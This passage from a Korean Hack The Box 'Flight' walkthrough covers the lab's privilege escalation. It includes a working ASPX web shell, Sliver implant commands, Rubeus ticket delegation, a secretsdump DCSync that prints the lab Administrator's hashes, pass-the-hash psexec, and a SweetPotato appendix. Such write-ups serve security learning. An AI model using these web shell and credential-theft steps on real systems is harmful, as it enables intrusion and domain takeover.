LocalAddress                        LocalPort RemoteAddress                       RemotePort State 
------------                        --------- -------------                       ---------- ----- 
::                                  8000      ::                                  
```


sliver를 사용해 SOCKS 프록시 터널을 생성한다.
```bash
sliver (PROTECTIVE_MARBLE) > socks5 start

[*] Started SOCKS5 127.0.0.1 1081  
⚠️  In-band SOCKS proxies can be a little unstable depending on protocol
```
https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/


그 다음, 브라우저(FoxyProxy) 트래픽을 프록시를 통해 라우팅하고 `http://127.0.0.1:8000`에 접근을 시도해 본다. 그러면 `flight.htb` 내부용 페이지가 뜨는 것을 볼 수 있다.



`C:\inetpub` 내부의 디렉터리와 파일을 우리가 접속한 웹 사이트와 비교해 보면, `C:\inetpub\development`가 이 내부 페이지를 호스팅하는 디렉터리임을 확신할 수 있다. `c.bum` 사용자가 `WebDevs` 그룹의 멤버이므로 `c:\inetpub\development` 폴더에 대한 쓰기 권한이 있을 가능성이 높다.

우리의 목표는 IIS 서버를 실행하는 계정으로 sliver 세션을 얻는 것이다. 다시 sliver를 사용하여 다음과 같은 간단한 ASPX 웹 쉘을 업로드한다.

```aspx
<%@Page Language="C#"%><%var p=new System.Diagnostics.Process(){StartInfo={FileName=Request["c"], UseShellExecute=false, RedirectStandardOutput=true}}; p.Start();%>
<%=p.StandardOutput.ReadToEnd()%>
```

```bash
sliver (PROTECTIVE_MARBLE) > upload shell.aspx 'C:\inetpub\development\shell.aspx'
```

이제 SOCKS 프록시가 활성화된 상태에서 브라우저로 다음 URL을 방문하여 sliver 임플란트를 트리거할 수 있다.
`http://127.0.0.1:8000/shell.aspx?c=C:\users\public\music\htb.exe`

```bash
sliver (PROTECTIVE_MARBLE) > sessions -i 5db0a6e7
sliver (PROTECTIVE_MARBLE) > whoami
[*] Current Token ID: IIS APPPOOL\DefaultAppPool
```

`IIS APPPOOL\DefaultAppPool` 권한으로 새 세션을 얻었다! 이 "사용자"는 사실 Microsoft 가상 계정(Virtual Account)이며, Microsoft의 설명에 따르면 가상 계정으로 실행되는 서비스는 `<domain_name>\<computer_name>$` 형식의 컴퓨터 계정 자격 증명을 사용하여 네트워크 리소스에 접근한다.

https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-service-accounts

이 말은 현재 세션에서 `Rubeus`를 사용하여 우리 자신(컴퓨터 계정)을 위한 티켓을 요청하고 DCSync 공격을 수행할 수 있다는 뜻이다. sliver와 함께 제공되는 armory에는 Rubeus 모듈이 있어서 익스플로잇을 쉽게 만들어준다.

https://github.com/GhostPack/Rubeus

```bash
sliver > armory install rubeus
sliver (PROTECTIVE_MARBLE) > rubeus tgtdeleg /nowrap

[*] rubeus output:

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/g0.flight.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: iI0vKjS0VSjQer7UHzEI5gYjorGJVUnmC/zO/TEhus8=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFVDCCBVCgAwIBBaEDAgEWooIEZDCCBGBhggRcMIIEWKADAgEFoQwbCkZMSUdIVC5IVEKiHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCkZMSUdIVC5IVEKjggQgMIIEHKADAgESoQMCAQKiggQOBIIECuhYSz/a1B3tH0wpLxPqkDpnT0UqVlHg13jJMKo4F01g5C4pr58J5yhY0maI6G0Y+0a8kqZbImKgjdgLgaTc0Y1JF/9ckPrUZ61Zus6AV0f357cGNy5f6L8wh3yT60sfUQSIffSPKO+DDCUCZpsV2RWMAEmnNbolpC1DxBtgrz2gHLc6EXRczeK5GYERW43V4RVFDIoh9obe/zluzvacUvfzIv6z6jqVESjUh5RMSUWU0TUv3lOa/Xhap0CI5h9At6vN8u9ErwFE+cUE8b3MxxWZ/XONluLecietQsEu8FncC3M2E/y6eyeBsnTLRMwD3UjonN9pPBu3EFmrp4mZ76pUcNb9H1u5bZv4na6MotxEoG9UqBFfEA0R6wDG5PLP6om6GGd+yzIz64rXgJPwwHbf1zNN8835BVv1OiSRhccogYJmhZhX/a0kIX3BYlxK6oX9vfROpGFABb7nhR2JD9sd5rMEh49N0noqAPwQAawfSjfN9sWKpXw6fmkag2VQaAs7LABd4NgvN/fUP3LXHkP/WamKh5z5xUZmRrNLI/0bmKrKnP8rJVsOA6jJh1tsiFFfuiK1W5kuNzijx7uFzLX5UrE7JjADLDRgeJPaC1KwB8Ry533mReVCFwP6KY/fB4uljYatVvim2EKrBU4m2sXD9FMb/n8AaNgLCU7/rkh6uSKv3WLHsClxOOd7qrhc7EWbN1aVFU5fAtQdOKVC4JVvBBBlGPJ3HH2t5lW5OkzMglgXrkLbqIJDJzZ6rIV2PqtyW2n7O1w1xAgAFtGcx5oH2dcinYEB71WtMYCoUZsWCEGFV9rbG2wHCBa7742XvolYDHhxbLQfFZRJahbnwTnIa6rZTbLII8U0FzVc1CTheWoyMGwwXJGsgApc3/hRjiekaNbRlwrnBUrdHFFTZJjugKCV1BlHNOVfYv/UK0frLuMPehvTa6PtpVgBzKTgJFIF0UUXCfW5RjS364RG6H2q1nl22x3l2d1pHCoeSo/yL0g+CkTLd+OYLP3XaY3ouOG2rbP+PEQA2DOnXyb2jRNLbm2DAGVDTJAXzQTW/bZ8uyiPHOc4Z9LwXj4yyAPyTETyPvPJT3I0SvdZU9Za4IVvaYIX34Dw8q0Bi8LHXkj+xwajwNP+pHLJDTYBNnLSd4iP//KSc5xzaCtv3vkoJ1EA0YzDtofZRMRjtLRUcOv4jJynxDV/cfGpblmfaJVjCRR0Ihwie38BrDakevXuw7rqA2bJPkjQyWlTtg2gU1WNo800+MsoFBAI951/Q2xSs3dgGEQbYoNcsXrRaMOdQMTE4Grfs/wTvDxoQDbdw03NtHnqxH7aOKxR2IMFNZaRE9zwtTpxTlJa0VuSiVUKfkt1if4tNpiwwm9fo4HbMIHYoAMCAQCigdAEgc19gcowgceggcQwgcEwgb6gKzApoAMCARKhIgQgDZ6vLBs6lKJR870FmU49VfDAfa8OXCAs0lF9FxnKHoOhDBsKRkxJR0hULkhUQqIQMA6gAwIBAaEHMAUbA0cwJKMHAwUAYKEAAKURGA8yMDI2MDQxNjE3MDgwOVqmERgPMjAyNjA0MTcwMzA4MDlapxEYDzIwMjYwNDIzMTcwODA5WqgMGwpGTElHSFQuSFRCqR8wHaADAgECoRYwFBsGa3JidGd0GwpGTElHSFQuSFRC
```

컴퓨터 계정에 대한 유효한 티켓을 얻었으므로, impacket에서 사용하기 위해 base64 형식에서 ccache 형식으로 변환해야 한다. 변환을 위해 티켓 출력을 `ticket.b64`라는 파일로 저장한 다음, 아래 명령 체인을 실행하여 Administrator의 해시를 얻는다.

```bash
cat ticket.b64 | base64 -d > ticket.kirbi
kirbi2ccache ticket.kirbi ticket.ccache

sudo systemctl stop open-vm-tools
sudo systemctl stop virtualbox-guest-utils
sudo systemctl stop systemd-timesyncd

sudo ntpdate -u flight.htb
KRB5CCNAME=ticket.ccache impacket-secretsdump -k -no-pass g0.flight.htb -just-dc-user Administrator -target-ip TARGET_IP
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:08c3eb806e4a83cdc660a54970bf3f3043256638aea2b62c317feffb75d89322
Administrator:aes128-cts-hmac-sha1-96:735ebdcaa24aad6bf0dc154fcdcb9465
Administrator:des-cbc-md5:c7754cb5498c2a2f
[*] Cleaning up... 
```

마지막으로 추출한 해시를 사용하여 `impacket-psexec`로 Administrator 사용자 권한으로 인증할 수 있다.

```bash
impacket-psexec Administrator@flight.htb -hashes aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c
```

```text
C:\Windows\system32> whoami
nt authority\system
```

최종적으로 루트 플래그는 `C:\Users\Administrator\Desktop\root.txt`에서 찾을 수 있다!

---

### 부록 - 대체 권한 상승 (Appendix - Alternative Privilege Escalation)

`IIS APPPOOL\DefaultAppPool`은 서비스/가상 계정이므로 `SeImpersonatePrivilege` 권한이 활성화되어 있다.

이 권한은 "potatoes(포테이토)"로 알려진 익스플로잇 제품군과 직접적으로 연관이 있다. 기본적으로 우리가 목표로 하는 것은 머신이 우리가 제어하는 프로세스에 `NT AUTHORITY\SYSTEM` 권한으로 인증하도록 강제하는 것이고, 우리가 `SeImpersonatePrivilege`를 가지고 있기 때문에 `NT AUTHORITY\SYSTEM` 권한으로 실행되는 새로운 프로세스를 만들 수 있게 된다.

https://jlajara.gitlab.io/Potatoes_Windows_Privesc

이 예시에서는 실제로 여러 포테이토들을 하나로 모아 놓은 `Sweet Potato`를 사용할 수 있다. VisualStudio를 사용하여 프로젝트를 빌드한 후, 다시 한 번 sliver를 사용해 실행 파일을 업로드하면 `SYSTEM` 권한의 새 세션을 얻을 수 있다.

https://github.com/CCob/SweetPotato

```bash
sliver > cd "C:\users\public\music"
sliver > upload /opt/SweetPotato.exe
sliver > shell
.\SweetPotato.exe -e EfsRpc -p "C:\users\public\music\htb.exe"
```

실행이 성공적으로 완료되면, `NT AUTHORITY\SYSTEM` 권한을 가진 세션을 확보하게 되어 동일하게 루트 플래그를 읽을 수 있게 된다!
